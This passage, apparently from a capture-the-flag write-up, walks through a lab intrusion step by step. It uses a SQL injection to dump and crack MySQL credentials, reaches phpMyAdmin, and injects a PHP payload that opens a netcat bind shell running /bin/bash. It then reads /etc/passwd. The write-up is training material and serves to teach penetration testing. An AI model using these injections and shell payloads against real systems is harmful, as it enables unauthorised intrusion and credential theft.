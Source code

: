 What might be more useful though, is some credentials. We can access the `mysql.users` table just like any other, and dump the first username and password hash:

```
GET /room.php?cod=0 UNION SELECT 1,User,Password,1,1,1,1 FROM mysql.user; #
```

All this could've been done much more easily using `sqlmap`, but it's good to do it yourself sometimes. From this, we get something we can throw into john, or any other tool:

```
DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

```
 $ john passwd
	Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 SSE2 4x])
	Proceeding with single, rules:Single
	Press 'q' or Ctrl-C to abort, almost any other key for status
	Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
	
	imissyou         (DBadmin)
	
	1g 0:00:00:00 DONE 2/3 (2019-09-14 20:50) 1.960g/s 6617p/s 6617c/s 6617C/s twilight..ashlee
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
```

(trimmed)

For context, the hash is in a format particular to MySql > 4.1, with the * being used to specify that it's a newer version.

Now what? Well, whether you run dirb on the web root or just guess you should quickly find the phpMyAdmin installation which we can now access.

Now we need to get actual code execution. From the phpMyAdmin root, you can find a `README.md` file which states that it's running version 4.8.0. We can easily search for exploits and find [this](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/) very well written guide. We could make a metasploit payload, and in most real-world situations we'd need to, but we can also try a much simpler approach:

```
select "<?php echo exec('nc -lvp 4444 -e /bin/bash'); ?>"
```

This will create a bash shell bound to port 4444. Run it and sure enough, we can connect.

```
 $ whoami
	www-data
 $ cat /etc/passwd
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
	(trimmed)
```

